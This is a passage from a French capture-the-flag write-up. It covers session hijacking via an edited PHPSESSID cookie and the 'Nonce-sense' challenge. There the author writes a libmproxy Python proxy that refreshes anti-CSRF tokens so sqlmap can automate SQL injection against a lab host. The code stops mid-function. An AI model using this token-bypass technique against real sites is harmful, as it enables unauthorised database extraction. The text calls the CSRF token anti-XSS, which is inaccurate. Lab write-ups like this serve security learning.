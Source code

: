 Dès lors il suffit d'éditer PHPSESSID via *EditThisCookie* et de mettre la valeur récupérée.  

*User Flag: OrganicShantyAbsent505*  

Nonce-sense (220 points)
------------------------

La mission : récupérer le flag stocké dans la base de données.  

Quand on est connecté en tant que *Sycamore* on remarque une icône de poubelle à côté de chaque commentaire. Quand on affiche le code HTML on voit que le mécanisme de suppression se fait via une requête vers *deletecomment.php* utilisant *jQuery* :  

```plain
window.csrf = '27fb15c0f098a858';
function deletecomment(obj, id) {
  $.post('/deletecomment.php', {csrf: window.csrf, comment_id: id}).done(function(data) {
    if (data['result']) {
      $(obj).parent().remove();
      window.csrf = data['csrf'];
    }
  });
}
```

Le script PHP prend deux variables : l'ID du commentaire ainsi qu'un token anti cross-site-scripting (ce serait trop facile sinon).  

Émettre une requête HTTP avec un token valide permet de s'assurer rapidement que le script est vulnérable à une faille d'injection SQL.  

Toutefois la présence de la protection anti-CSRF rend l'attaque non-automatisable par un outil d'attaque comme *sqlmap*... à moins de lui donner un coup de main ;-)  

Pour cela j'ai eu recours à la librairie Python [libmproxy]( http://mitmproxy.org/) : *A library for implementing powerful interception proxies*.  

La documentation est succincte mais grâce à l'introspection offerte par Python on parvient assez facilement à ses fins.  

Au final j'ai écrit le proxy interceptant suivant :  

```python
from libmproxy import controller, proxy, flow
import sys
import requests
import json

class StickyMaster(controller.Master):
    def __init__(self, server):
        controller.Master.__init__(self, server)
        self.current_csrf = None
        self.cookie = "vip=1; PHPSESSID=dt4k9fnq54ut6ndm78of7rm053;"

        r = requests.get("http://192.168.1.64/blog.php?view=1",
                headers={"Cookie": self.cookie})

        if "window.csrf = '" in r.content:
            start = r.content.find("window.csrf = '") + 15
            end = start + 20
            self.current_csrf = r.content[start:end].split("'", 1)[0]
            print "First csrf value =", self.current_csrf
        else:
            print "Can't get first csrf value :'("
            sys.exit()

    def run(self):
        try:
            return controller.Master.run(self)
```
